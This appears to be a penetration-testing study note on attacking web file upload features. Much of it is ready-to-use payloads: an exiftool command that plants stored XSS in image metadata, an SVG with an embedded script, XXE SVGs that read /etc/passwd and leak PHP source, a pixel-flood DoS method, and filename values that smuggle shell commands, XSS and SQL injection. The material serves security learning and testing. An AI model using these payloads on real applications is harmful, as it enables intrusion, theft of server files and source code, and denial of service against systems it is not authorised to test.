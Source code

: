 Certain file types, like `SVG`, `HTML`, `XML`, and even some image and document files, may allow us to introduce new vulnerabilities to the web application by uploading malicious versions of these files.

## XSS
On file: `HTML, JS, SVG, GIF`

Introduce a `Stored XSS` vulnerability to the web application by uploading maliciously crafted versions of them.

**If web applications display an image's metadata after its upload.**

```sh
exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
```

> When the image's metadata is displayed, the XSS payload should be triggered, and the JavaScript code will be executed to carry the XSS attack

XSS attacks can also be carried with `SVG` images, along with several other attacks

We can write the following to `payload.svg`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert("window.origin");</script>
</svg>
```

> Once we upload the `payload.svg` to the web application, the XSS payload will be triggered whenever the image is displayed.

## XXE

We can also include malicious XML data to  to leak the source code of the web application.

The following example can be used for an SVG image `payload.svg` that leaks the content of (/etc/passwd)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

To use XXE to read source code in PHP web applications, we can use the following payload in our SVG image:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

> Once the SVG image is displayed, we should get the base64 encoded content which we can decode to read the source code.

Using XML data is not unique to SVG images, as it is also utilized by many types of documents, like : `PDF`, `Word Documents - DOC`, `PowerPoint Documents - PPT`, `XML, SVG` among many others.

## DoS
Another possible DoS attack is:
- `Pixel Flood` attack with some image files that utilize image compression, like `ZIP, JPG, PNG`

> We can create any JPG image file with any image size (e.g. 500x500), and then manually modify its compression data to say it has a size of (0xffff x 0xffff), which results in an image with a perceived size of 4 Gigapixels. When the web application attempts to display the image, it will attempt to allocate all of its memory to this image, resulting in a crash on the back-end server.

## Injections in File Name

Rename the value of filename such as

```sh
filename="file$(whoami).jpg"
filename="file`whoami`.jpg"
filename="file.jpg||whoami"
```

Use an XSS payload in the file name (e.g. `<script>alert(window.origin);</script>`), which would get executed on the target's machine if the file name is disabled to them. 

Also inject an SQL query in the file name (e.g. `file';select+sleep(5);--.jpg`), which may lead to an SQL injection if the file name is insecurely used in an SQL query.